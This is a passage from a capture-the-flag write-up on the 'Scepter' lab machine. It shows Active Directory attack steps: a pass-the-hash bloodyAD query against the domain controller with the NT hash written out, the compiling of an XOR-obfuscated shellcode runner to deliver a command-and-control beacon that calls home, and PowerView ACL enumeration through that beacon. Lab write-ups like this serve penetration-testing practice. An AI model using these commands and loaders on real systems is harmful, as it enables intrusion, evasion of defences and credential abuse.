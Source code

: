 ```bash
➜  scepter2 bloodyAD --host DC01.scepter.htb -d scepter.htb -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce get object "CMS" --attr description 

distinguishedName: CN=CMS,CN=Users,DC=scepter,DC=htb
description: Certificate Management Service
```

this is remind me  **ADCS** again. let me load my beacon here and analyze more i will use my laoder

https://github.com/lineeralgebra/shellcoderunner

```bash
➜  shellcoderunner git:(main) ✗ python3 xor.py a.bin mysecretkey --compile
[+] NTAPI-based C++ runner saved to shellcode_runner.cpp
[*] Compiling shellcode_runner.cpp to runner.exe...
[+] Compilation successful: runner.exe
```

![alt text](../assets/images/scepter10.png)

and its gave us beacon nice lets import [Powerview.ps1](https://github.com/lucky-luk3/ActiveDirectory/blob/master/PowerView.ps1) and continue.

```bash
[07/11 20:41:59] beacon> powershell-import /home/elliot/tools/PowerView.ps1
[07/11 20:41:59] [*] Tasked beacon to import: /home/elliot/tools/PowerView.ps1
[07/11 20:41:59] [+] host called home, sent: 143784 bytes
```

Check for any DACL that may be tied to the CMS group

```bash
powerpick Find-InterestingDomainACL -ResolveGUIDS | Select-Object SecurityIdentifier, IdentityReference, ObjectDN, ActiveDirectoryRights, AceType, ObjectAceType
```

![alt text](../assets/images/scepter11.png)
